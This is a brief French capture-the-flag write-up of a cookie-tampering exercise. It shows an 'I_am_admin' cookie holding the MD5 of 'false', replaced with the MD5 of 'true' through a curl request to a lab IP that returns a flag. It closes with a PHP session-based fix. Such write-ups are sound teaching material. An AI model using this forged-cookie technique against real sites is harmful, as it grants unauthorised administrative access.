 # Cookie Injection

## Exploitation

On voit que l'on a un Cookie :

`Cookie: I_am_admin=68934a3e9455fa72420237eb05902327`

si on fait un MD5 reverse, on obtient `false`

https://md5.gromweb.com/?md5=68934a3e9455fa72420237eb05902327

On le change par `true`

```bash
$> echo -n 'true' | md5sum
b326b5062b2f0e69046810717534cb09
```

On remplace notre cookie par cette valeur:

```bash
curl 'http://192.168.99.100/' \
 -H 'Cookie: I_am_admin=b326b5062b2f0e69046810717534cb09' | grep Flag

<script>alert('Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3'); </script><!DOCTYPE HTML>
```

## Resolution

Il ne faut jamais mettre d'info sensible dans un cookie. En PHP, on peut utiliser une session pour stocker ce genre de donnée, ça donnerait;

```php
<?php
$_SESSION["I_am_admin"] = true;
?>
```
